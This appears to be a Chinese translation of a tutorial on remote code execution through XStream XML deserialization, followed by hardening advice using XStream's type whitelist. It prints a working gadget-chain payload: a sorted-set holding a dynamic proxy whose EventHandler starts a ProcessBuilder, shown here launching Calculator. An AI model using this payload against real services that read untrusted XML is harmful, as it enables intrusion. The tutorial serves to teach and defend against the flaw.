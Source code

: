 ## 一、概述

在本教程中，我们将剖析针对 XStream XML 序列化库的远程代码执行攻击。此漏洞属于*不受信任的反序列*化攻击类别。

我们将了解 XStream 何时易受此攻击、攻击如何运作以及如何防止此类攻击。

## 2. XStream 基础知识

在描述攻击之前，让我们回顾一下 XStream 的一些基础知识。XStream 是一个 XML 序列化库，可在 Java 类型和 XML 之间进行转换。考虑一个简单的
*Person*类：

```java
public class Person {
    private String first;
    private String last;

    // standard getters and setters
}复制
```

让我们看看[XStream 如何将一些*Person*实例写入 XML](https://www.baeldung.com/xstream-serialize-object-to-xml)：

```java
XStream xstream = new XStream();
String xml = xstream.toXML(person);复制
```

同样，[XStream 可以将 XML 读入*Person*](https://www.baeldung.com/xstream-deserialize-xml-to-object)的实例：

```java
XStream xstream = new XStream();
xstream.alias("person", Person.class);
String xml = "<person><first>John</first><last>Smith</last></person>";
Person person = (Person) xstream.fromXML(xml);复制
```

在这两种情况下，XStream 使用[Java 反射](https://www.baeldung.com/java-reflection)将*Person*类型与 XML 相互转换。攻击发生在读取
XML 期间。读取 XML 时，XStream 使用反射实例化 Java 类。

**XStream 实例化的类由它解析的 XML 元素的名称决定。**

因为我们将 XStream 配置为识别*Person*类型，所以 XStream在解析名为“person”的 XML 元素时会实例化一个新的*Person 。*

除了像*Person*这样的用户定义类型之外，XStream 还可以开箱即用地识别核心 Java 类型。例如，XStream 可以从 XML中读取一个*Map ：*

```java
String xml = "" 
    + "<map>" 
    + "  <element>" 
    + "    <string>foo</string>" 
    + "    <int>10</int>" 
    + "  </element>" 
    + "</map>";
XStream xStream = new XStream();
Map<String, Integer> map = (Map<String, Integer>) xStream.fromXML(xml);
复制
```

我们将看到 XStream 读取表示核心 Java 类型的 XML 的能力将如何有助于远程代码执行利用。

## 3. 攻击如何进行

当攻击者提供最终被解释为代码的输入时，就会发生远程代码执行攻击。在这种情况下，攻击者通过以 XML 形式提供攻击代码来利用
XStream 的反序列化策略。

通过正确的类组合，XStream 最终通过 Java 反射运行攻击代码。

让我们构建一个示例攻击。

### 3.1. *在ProcessBuilder*中包含攻击代码

我们的攻击旨在启动一个新的桌面计算器进程。在 macOS 上，这是“/Applications/Calculator.app”。在 Windows
上，这是“calc.exe”。为此，我们将使用*ProcessBuilder 诱使 XStream 运行一个新进程。*
调用[Java 代码来启动一个新进程](https://www.baeldung.com/java-lang-processbuilder-api)：

```java
new ProcessBuilder().command("executable-name-here").start();复制
```

读取 XML 时，XStream 仅调用构造函数并设置字段。因此，攻击者没有直接的方法来调用*ProcessBuilder.start()*方法。

但是，聪明的攻击者可以使用正确的类组合来最终执行*ProcessBuilder*的*start()*方法。

安全研究员[Dinis Cruz 在他们的博文中向我们展示了他们](http://blog.diniscruz.com/2013/12/xstream-remote-code-execution-exploit.html)
如何使用*Comparable接口在排序集合**TreeSet*的复制构造函数中调用攻击代码。我们将在此处总结该方法。

### 3.2. 创建一个*可比较*的动态代理

回想一下，攻击者需要创建一个*ProcessBuilder*并调用它的*start()*方法。为此，我们将创建一个*Comparable*实例，其*比较*方法调用
*ProcessBuilder*的*start()*方法。

**幸运的是，[Java 动态代理](https://www.baeldung.com/java-dynamic-proxies)允许我们动态创建\*Comparable的实例\**。\***

此外，Java 的*EventHandler*类为攻击者提供了可配置的*InvocationHandler*实现。*
*攻击者将\*EventHandler\*配置为调用\*ProcessBuilder\*的\*start()\*方法。**

将这些组件放在一起，我们就有了*Comparable*代理的 XStream XML 表示：

```xml
<dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
        <target class="java.lang.ProcessBuilder">
            <command>
                <string>open</string>
                <string>/Applications/Calculator.app</string>
            </command>
        </target>
        <action>start</action>
    </handler>
</dynamic-proxy>复制
```

### 3.3. *使用可比较*的动态代理强制比较

为了强制与我们的*Comparable*代理进行比较，我们将构建一个排序集合。*
*让我们构建一个比较两个\*Comparable\*实例的\*TreeSet\*集合：一个\*String\*和我们的代理。**

我们将使用*TreeSet*的复制构造函数来构建这个集合。最后，我们有一个包含我们的代理和一个*String的新**TreeSet*的 XStream XML
表示：

```xml
<sorted-set>
    <string>foo</string>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>open</string>
                    <string>/Applications/Calculator.app</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
复制
```

最终，攻击在 XStream 读取此 XML 时发生。虽然开发人员希望 XStream 读取*Person*，但它反而执行了攻击：

```java
String sortedSortAttack = // XML from above
XStream xstream = new XStream();
Person person = (Person) xstream.fromXML(sortedSortAttack);复制
```

### 3.4. 攻击总结

让我们总结一下 XStream 在反序列化此 XML 时进行的反射调用

1. XStream使用包含*字符串*“foo”和我们的*Comparable*代理的*Collection调用**TreeSet*复制构造函数。
2. *TreeSet*构造函数调用我们的Comparable*代理*的*compareTo*方法以确定排序集中项目的顺序。
3. 我们的*Comparable*动态代理将所有方法调用委托给*EventHandler*。
4. *EventHandler*配置为调用它所组成的*ProcessBuilder*的*start()*方法。
5. *ProcessBuilder*派生出一个新进程来运行攻击者希望执行的命令。

## 4. XStream 何时易受攻击？

**当攻击者控制它读取的 XML 时，XStream 可能容易受到这种远程代码执行攻击。**

例如，考虑接受 XML 输入的 REST API。如果这个 REST API 使用 XStream 来读取 XML 请求主体，那么它可能容易受到远程代码执行攻击，因为攻击者控制了发送到
API 的 XML 的内容。

另一方面，仅使用 XStream 读取可信 XML 的应用程序的攻击面要小得多。

例如，考虑一个仅使用 XStream 读取应用程序管理员设置的 XML 配置文件的应用程序。此应用程序未暴露给 XStream
远程代码执行，因为攻击者无法控制应用程序读取的 XML（管理员才是）。

## 5. 针对远程代码执行攻击加固 XStream

幸运的是，XStream在 1.4.7 版本中引入了[安全框架。](https://x-stream.github.io/security.html)我们可以使用安全框架来强化我们的示例以抵御远程代码执行攻击。
**安全框架允许我们使用允许实例化的类型的白名单来配置 XStream。**

这个列表将只包括基本类型和我们的*Person*类：

```java
XStream xstream = new XStream();
xstream.addPermission(NoTypePermission.NONE);
xstream.addPermission(NullPermission.NULL);
xstream.addPermission(PrimitiveTypePermission.PRIMITIVES);
xstream.allowTypes(new Class<?>[] { Person.class });复制
```

此外，XStream 用户可能会考虑使用运行时应用程序自我保护 (RASP) 代理来强化他们的系统。**RASP
代理在运行时使用[字节码检测来自动检测和阻止攻击。](https://www.baeldung.com/java-instrumentation)**
与手动构建类型白名单相比，此技术更不容易出错。

## 六，结论

在本文中，我们了解了如何对使用 XStream 读取 XML 的应用程序执行远程代码执行攻击。由于存在此类攻击，因此在使用 XStream
从不受信任的来源读取 XML 时必须对其进行加固。

该漏洞之所以存在，是因为 XStream 使用反射来实例化由攻击者的 XML 标识的 Java 类。